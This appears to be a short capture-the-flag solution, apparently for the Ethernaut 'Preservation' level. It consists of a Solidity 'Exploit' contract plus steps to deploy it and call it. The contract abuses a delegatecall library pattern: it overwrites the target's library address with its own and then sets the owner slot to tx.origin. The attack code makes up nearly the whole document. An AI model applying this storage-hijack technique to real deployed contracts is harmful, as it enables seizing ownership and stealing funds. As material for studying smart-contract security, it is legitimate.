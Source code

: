 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Preservation {
    function setFirstTime(uint) external;

}

contract Exploit {

    address public o;
    address public p;
    address public owner;

    function exploit(address _who) public {
        Preservation(_who).setFirstTime(uint(address(this)));
    }

    function setTime(uint _time) public {
        owner = address(tx.origin);
    }
}
```
- Call exploit()
- Call setFirstTime() on your contract instance, with any value
